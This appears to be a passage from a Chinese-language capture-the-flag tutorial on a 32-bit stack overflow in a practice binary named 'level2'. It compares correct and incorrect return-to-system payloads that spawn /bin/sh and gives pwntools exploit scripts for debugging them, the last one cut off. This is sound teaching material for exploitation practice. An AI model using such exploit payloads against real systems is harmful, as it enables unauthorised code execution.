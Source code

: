 再来看一下第二个payload：

```python
payload1=(0x88+0x4)*'a'+p32(system_plt_addr)+'bbbb'+p32(bin_sh_addr)
```

这个payload就和第一个不相同，当程序发生栈溢出之后，程序会返回到system的plt，将'bbbb'做为调用system_plt函数后的虚假返回地址，参数就是“/bin/sh“。

看一下错误的payload：

```python
error_payload=(0x88+0x4)*'a'+p32(system_addr)+'bbbb'+p32(bin_sh_addr)
```

这个payload相当于将payload和payload1杂糅到了一起，写出这样子的payload应该是这样想的：

程序溢出之后将system作为返回地址，当call system时，它的参数是/bin/sh，并且将“bbbb”作为调用system函数后虚假的返回地址。

emmm...这个payload真的是你想象的这样吗？我们来动态调试一下：

首先关闭系统的地址随机化，防止堆栈地址随机，影响我们对比这三个payload的内存：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1608963429460-3bf76d4f-10b0-46b3-abdb-a81ee283413c.png)

之后，我们创建三个文件，将其分别命名为payload_exp.py、payload1_exp.py、error_exp.py，存放以下内容：

```python
from pwn import *
context.log_level='debug'

p=process('./level2')

system_addr=0x0804845C
bin_sh_addr=0x0804A024
system_plt_addr=0x08048320
payload=(0x88+0x4)*'a'+p32(system_addr)+p32(bin_sh_addr)
#payload1=(0x88+0x4)*'a'+p32(system_plt_addr)+'bbbb'+p32(bin_sh_addr)
#error_payload=(0x88+0x4)*'a'+p32(system_addr)+'bbbb'+p32(bin_sh_addr)
gdb.attach(p)
#print payload
#print payload1
p.sendline(payload)
p.interactive()
---------------------------------------------------------------------------------
from pwn import *
context.log_level='debug'

p=process('./level2')

system_addr=0x0804845C
bin_sh_addr=0x0804A024
system_plt_addr=0x08048320
#payload=(0x88+0x4)*'a'+p32(system_addr)+p32(bin_sh_addr)
payload1=(0x88+0x4)*'a'+p32(system_plt_addr)+'bbbb'+p32(bin_sh_addr)
#error_payload=(0x88+0x4)*'a'+p32(system_addr)+'bbbb'+p32(bin_sh_addr)
gdb.attach(p)
#print payload
#print payload1
p.sendline(payload1)
p.interactive()
---------------------------------------------------------------------------------
from pwn import *
context.log_level='debug'

p=process('./level2')

system_addr=0x0804845C
bin_sh_addr=0x0804A024
system_plt_addr=0x08048320
```